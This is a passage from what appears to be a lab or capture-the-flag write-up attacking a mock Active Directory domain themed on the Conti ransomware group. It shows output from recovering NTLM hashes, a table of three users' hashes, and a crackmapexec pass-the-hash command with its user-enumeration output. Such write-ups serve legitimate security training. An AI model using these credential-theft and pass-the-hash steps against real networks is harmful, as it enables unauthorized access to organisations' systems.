 ```
  ASREP (key)              :  25975C2EA613F124361E4B6BD72D644B
[*] Getting credentials using U2U  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : EE91709B90200C5685533AB93888CCCD
```

It works! We are able to retrieve 3 NTLM hashes for 3 users in `CONTI.RU` domain:

| User reference | SamAccountName | NTLM                             |
|----------------|----------------|----------------------------------|
| A              | Наистина       | EE91709B90200C5685533AB93888CCCD |
| B              | Вячеслав       | 78DD51AEF64338AD248FF80B25849C44 |
| C              | Валерий        | BE5C60EC1E9ED48B1ACB5C87D555C6E2 |

We can now gather information on the domain via different tools (smbclient, rpcclient, cme, ...) and perform a BloodHound collection to search for privilege escalation paths.

User enumeration with user C:
```
$ crackmapexec smb 10.0.20.11 -u Валерий -H 'BE5C60EC1E9ED48B1ACB5C87D555C6E2' --users 
CONTI.RU\Администратор                  Встроенная учетная запись администратора компьютера/домена
CONTI.RU\Гость                          Встроенная учетная запись для доступа гостей к компьютеру или домену
CONTI.RU\krbtgt                         Учетная запись службы KDC
CONTI.RU\Алексей                        HR
CONTI.RU\Альберт                        Negotiates ransom with companies, creates darknet blogs
CONTI.RU\Анна                           works on cryptolocker, decrypts data for victims
CONTI.RU\Артур                          Boss 2
CONTI.RU\Вадим                          Negotiates ransom with companies, creates darknet blogs
CONTI.RU\Валерий                        top hacker
CONTI.RU\Виктор                         sysadmin, oversees botnets
CONTI.RU\Виолетта                       works on cryptolocker, decrypts data for victims
CONTI.RU\Вячеслав                       Hacker, works as intermediary between the group and the victims
CONTI.RU\Галрй                          HR / Legal
CONTI.RU\Григорий                       Sysadmin
CONTI.RU\Дарья                          Negotiates ransom with companies, creates darknet blogs
CONTI.RU\Денис                          Hacker, manager
CONTI.RU\Елизавета                      works on cryptolocker, decrypts data for victims
CONTI.RU\Зинаида                        Sysadmin
CONTI.RU\Илья                           works on cryptolocker, decrypts data for victims
CONTI.RU\Карина                         HR
CONTI.RU\Клавдия                        sysadmin, oversees botnets
CONTI.RU\Кльия                          technical manager, QA, side projects (blockhain, hackers' social network)
CONTI.RU\Кристина                       Alla Witte, the Trickbot developer
CONTI.RU\Ксения                         HR
CONTI.RU\Лариса                         Sysadmin
CONTI.RU\Наистина                       hacker
CONTI.RU\Наталья                        Boss 1
CONTI.RU\Пётр                           HR
CONTI.RU\Федор                          Developer
CONTI.RU\Феттаерт                       HR
CONTI.RU\Ярослав                        Developers' teamlead / OSINT research
```
